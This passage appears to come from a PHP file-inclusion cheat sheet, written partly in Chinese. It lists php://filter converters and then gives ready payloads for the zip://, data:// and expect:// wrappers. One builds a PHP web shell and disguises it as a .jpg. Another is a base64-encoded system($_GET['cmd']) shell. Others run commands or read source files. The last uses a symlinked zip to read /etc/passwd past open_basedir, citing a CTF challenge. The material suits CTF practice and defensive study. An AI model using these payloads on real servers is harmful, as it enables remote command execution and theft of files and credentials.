 2、转换过滤器：
* convert.base64-encode & convert.base64-decode ：base64编码/解码
* convert.quoted-printable-encode & convert.quoted-printable-decode：将 quoted-printable 字符串转换为 8-bit 字符串

3、压缩过滤器：
* zlib.deflate和 zlib.inflate
* bzip2.compress和 bzip2.decompress

4、加密过滤器：
* mcrypt.tripledes和mdecrypt.tripledes等

```php
<?php
include "php://filter/read=convert.base64-decode/resource=php://input";
include "php://filter/read=convert.base64-decode/resource=phar://./phar.phar/test.txt";
include "php://filter/resource=phar://./phar.phar/test.txt";
```
参考：https://www.php.net/manual/zh/wrappers.php.php

## **Wrapper zip://**
Upload a Zip file with a PHPShell inside and access it.
```php
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```
## **Wrapper data://**
```php
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```
## **Wrapper expect://**
```php
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```
## **通过软链接文件**
通过软链接的方式进行文件读取包含可绕过open_basedir的限制
相关赛题：HCTF2018 hide and seek : https://xz.aliyun.com/t/3245#toc-6.
我们首先构造一个指向 /etc/passwd 的软链接文件，看看能不能成功
```sh
root@ubuntu:~# ln -s /etc/passwd test
看一下软链接的指向
lrwxrwxrwx  1 root root     11 Nov 11 06:45 test -> /etc/passwd
现在我们把这个文件进行压缩
root@ubuntu:~# zip -y test.zip test
```
上传然后 submit，借助文件包含漏洞，可任意读取相关文件，即使有open_basedir的限制.
